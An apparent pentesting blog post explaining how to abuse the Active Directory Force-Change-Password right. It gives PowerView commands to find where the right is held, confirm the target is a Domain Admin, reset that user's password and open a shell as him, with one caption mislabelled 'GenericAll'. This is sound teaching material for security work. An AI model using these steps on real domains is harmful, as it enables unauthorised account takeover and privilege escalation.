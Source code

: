 ```yaml
---
title:  Force-Change-Password On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: [infrastructure, pentesting, services, active directory, acl, Force-Change-Password, privilege escalation]     # TAG names should always be lowercase
---
```


# Force-Change-Password

***Force-Change-Password*** : Is a permission that allows you to change user's password. If you have *Force-Change-Password* on user object, you can reset user's password without knowing the current password of the user, thereby escalating your privileges.

# Enumeration

## PowerView

### Force-Change-Password Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have *Force-Change-Password*.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.objectacetype -eq "User-Force-Change-Password")}

```
*below image shows the current user `usman` has Force-Change-Password. right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserfcpenum.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has GenericAll right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserfcpb.png)

# Exploitation

## PowerView

### Reset Password

Since you have *Force-Change-Password* right on user `ali`, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
